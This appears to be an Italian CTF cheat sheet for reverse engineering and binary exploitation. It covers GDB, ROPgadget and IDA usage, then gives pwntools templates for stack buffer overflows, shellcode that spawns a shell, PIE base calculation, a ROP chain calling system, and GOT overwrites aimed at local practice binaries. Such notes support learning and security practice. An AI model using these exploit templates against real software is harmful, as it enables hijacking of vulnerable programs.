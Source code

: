 # Rev-PWN

### General terminal command

- **strings *nomeFile*** → Stampa tutte le stringhe del programma
- **checksec *nomeFile*** → per vedere struttura file
- **cat *nomeFile*** → per vedere contenuto file

**ROP**

- ROPgadget --binary ***nomeFile***| grep "rdi” → per creare un ROP gadget
    - E si cerca tra la stampa una cosa simile: 0x00000000004007c3 : pop rdi ; ret → ovvero con il ret alla fine
        
        In caso ce ne siano più di uno trovare quello che esegue i pop che ci interessano (in caso provarli tutti)
        
- ROPgadget --binary ***nomeFile***| grep "ret” → per aggiungere il ROP di return
    - Si cerca tra la stampa l’indirizzo con solo ret scritto, es.: 0x000000000040053e : ret

### GDB debbuger

- **gdb *nomeFile →*** per aprire debbugger del file
    - **break *nomeFunzione*/break **indirizzoMemFunzione →*** per impostare un breakpoint nella funzione
    - **jump *nomeFunzione →*** per chiamare quella funzione
    - **disas *nomeFunzione →*** per vedere cosa fa la funzione (a volte può essere necessario inserire prima un breakpoint)
    - **x/s *indirizzoMemVariabile →*** stampa valore della variabile
    - **info registers** → permette di vedere i registri del file
- **checksec *nomeFile →*** per verificare se RELRO è FULL quindi file protetto da scritture sullo stack
    
    **Calcolare buffer**
    
    - **pattern_create *dimPattern nomePattern***
    - **run < *nomePattern** → per runnare il pattern*
    - **pattern search** → per vedere la dimensione del buffer
        - **EIP+0 found at offset: *dimBuffer →*** dimBuffer sarà la dimensione che dovremo utilizzare

### IDA Tip

- **Evitare la chiamata di una funzione** → cliccare su di essa, e cambiare il suo esadecimale con tutti 90 (edit → patch program → change byte. Per salvare: edit → patch program → apply to input files)
- **Leggere cella di memoria di una funzione** → Andare su finestra exports

### PWN

```python
from pwn import *

garbage = b'java'+b'A'*28
address = p64(0x4007a2) #indirizzo che vogliamo che venga chiamato dopo aver fatto overflow
p = process('./java')
p.sendline(garbage+address)
p.interactive() #da usare se con questo codice si aprira una shell da cui poi dovremo operare
#p.recvall() da usare al posto di interactive se il programma termina e vogliamo ottenere l'output
#----------------------------------------------------------
#Per ottenere l'indirizzo della funzione che vogliamo chiamare
elf=ELF('./java')
address = p64(elf.symbols['print_flag'])
#----------------------------------------------------------
p.sendline(asm(shellcraft.sh())) #se è necessario generare una shell
#-----------------------------------------------------------
exit_got = elf.got['exit'] #da usare se la funzione è in GOT (quindi cambia indirizzo)
#--------DA USARE SE PIE ATTIVO-------------------
from pwn import *

p=process('./challenge')
main =p.unpack()
elf = ELF('./challenge')
elf.address=main-elf.symbols['main']
where = elf.symbols['read']
what = elf.symbols['oh_look_useful']

p.pack(where)
p.pack(what)
p.interactive()

#-----------Da usare per ROP------------------------------------
from pwn import *

p=process('./split')
garbage=b'A'*40
ROPgadget=p64(0x4007c3)#Ottenuto con: ROPgadget --binary split | grep "rdi"
addressFlag=p64(0x601060)#Ottenuta da Export IDA
systemAddress=p64(0x400560) #Ottenuto con da gdb: p system
ret=p64(0x40053e) #Ottenuto con: ROPgadget --binary split | grep "ret”

p.sendline(garbage+ret+ROPgadget+addressFlag+systemAddress)
print(p.recvall())
#-----------------what - where --------------------
from pwn import *  # type: ignore

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary  # type: ignore     #just to make the typechecker happy
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
print(p.recvall())
#----------------what - where v2-----------------------
from pwn import *

e = ELF("./goat")
p = process("./goat")

p.sendline(hex(e.got["exit"]))
p.sendline(hex(e.symbols["win"]))
print(p.recvall())

```

### C functions

```c
__asm__() //è molto probabile che sia da arrivare a questa funzione e chiamare una shell
```

### ROP

Da usare se dopo aver messo break sul main e aver runnato con gdb ottengo una cosa simile

```bash
RAX: 0x400697 (<main>:  push   rbp)
RBX: 0x0
RCX: 0x400760 (<__libc_csu_init>:       push   r15)
RDX: 0x7fffffffdf98 --> 0x7fffffffe245 ("SHELL=/bin/bash")
RSI: 0x7fffffffdf88 --> 0x7fffffffe1f6 ("/mnt/c/users/aless/Downloads/Challenges/challenge rop/Challenges/1_split/split")
```
